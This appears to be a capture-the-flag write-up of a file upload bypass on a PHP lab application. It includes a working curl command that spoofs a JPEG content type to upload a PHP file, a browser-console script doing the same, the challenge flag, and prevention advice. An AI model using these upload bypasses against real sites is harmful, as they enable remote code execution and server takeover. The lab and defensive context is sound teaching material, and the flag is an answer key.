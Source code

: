 # File Upload Bypass Vulnerability

## Overview
The upload feature at `/index.php?page=upload` allows attackers to upload PHP files by tricking the application to accept non-image files.

---

## Discovery

1. Upload form only allows `.jpg` and `.jpeg` files.
2. JavaScript blocks empty uploads, but not actual file content.
3. The app checks file extensions but not the real content.

---

## Exploitation

### **Method 1: cURL Content-Type Spoofing**

```bash
curl http://<IP_ADDRESS>/index.php?page=upload \
  -F "Upload=Upload" \
  -F "uploaded=@malicious.php;type=image/jpeg" \
  -F "MAX_FILE_SIZE=100000"
```
- The PHP file is uploaded as if it’s a JPEG by spoofing the content-type.

---

### **Method 2: JavaScript in Browser Console**

1. Open the upload page.
2. Run this in the Console:

   ```javascript
   async function bypassUpload() {
     const uploadUrl = window.location.origin + "/index.php?page=upload";
     const phpCode = "<?php echo 'Bypassed!'; ?>";
     const formData = new FormData();
     const fileBlob = new Blob([phpCode], { type: "image/jpeg" });
     formData.append("uploaded", fileBlob, "image.php");
     formData.append("Upload", "Upload");
     const response = await fetch(uploadUrl, { method: "POST", body: formData });
     const html = await response.text();
     console.log(html);
   }
   bypassUpload();
   ```

---

## Flag

`46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8`

---

## Security Impact

- **Remote Code Execution:** Upload and run PHP code on the server
- **Data Theft:** Access sensitive files and data
- **System Compromise:** Full server takeover possible

---

## Prevention

1. **Validate actual file content, not just extensions**
2. **Use libraries (like fileinfo) for file type checks**
3. **Re-encode images on the server**
4. **Store uploads in non-executable locations**
5. **Apply a strict Content Security Policy**

---